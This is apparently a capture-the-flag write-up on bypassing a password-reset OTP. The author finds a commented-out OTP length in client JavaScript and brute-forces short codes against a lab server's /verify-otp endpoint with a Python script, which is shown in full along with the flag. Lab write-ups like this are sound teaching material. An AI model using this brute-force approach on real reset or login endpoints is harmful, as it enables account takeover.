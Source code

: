 
## Lousy 2FA

First, I checked `/robots.txt`, which revealed the `/forgot-password` endpoint. Examining the `script.js` file associated with the forgot password functionality, I found the `fetch` request to `/send-otp`:



```js
fetch('/send-otp', {
    method: 'POST',
    headers: { 'Content-Type': 'application/json' },
    body: JSON.stringify({ email: emailInput.value,
        // length: 8 // This was commented out
    }),
})
```

The commented-out `length: 8` was a crucial hint. It suggested that while an 8-digit OTP was initially intended, the server might accept shorter lengths. I then used a Python script to brute-force OTPs of varying lengths, starting from 1, by sending requests to `/verify-otp`.

Here's my brute-forcing script:



```python
import requests

# URL of the OTP verification endpoint
url = "http://4.240.104.200:5003/verify-otp"

# Try OTP values from 0 to 99
for otp_value in range(100):
    payload = {
        "email": "admin@example.com",
        "otp": str(otp_value)  # Convert OTP to string
    }

    # Send the POST request with JSON payload
    response = requests.post(url, json=payload)

    # Check response text for success (anything not containing "Invalid")
    if "Invalid" not in response.text:
        print(f"[+] OTP found: {otp_value}")
        print("Server response:", response.text)
        break  # Stop after finding the correct OTP

```

**Flag**: HTB{L3NGTH_D0E5NT_MATT3R_0R_D03S_1T?}

---

## TIP TOP PWN
